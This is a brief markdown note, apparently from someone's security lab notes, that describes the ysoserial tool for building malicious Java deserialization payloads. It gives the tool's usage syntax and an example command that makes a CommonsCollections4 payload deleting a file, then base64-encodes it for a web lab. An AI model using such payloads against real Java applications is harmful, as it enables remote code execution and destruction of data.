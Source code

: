 This tool is used to create malicious payloads for java serialized objects

https://github.com/frohoff/ysoserial

```bash
java -jar ysoserial-all.jar [payload] <command> 
```


## Example
```bash
java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 | tr -d '\n' > b64-payload 
```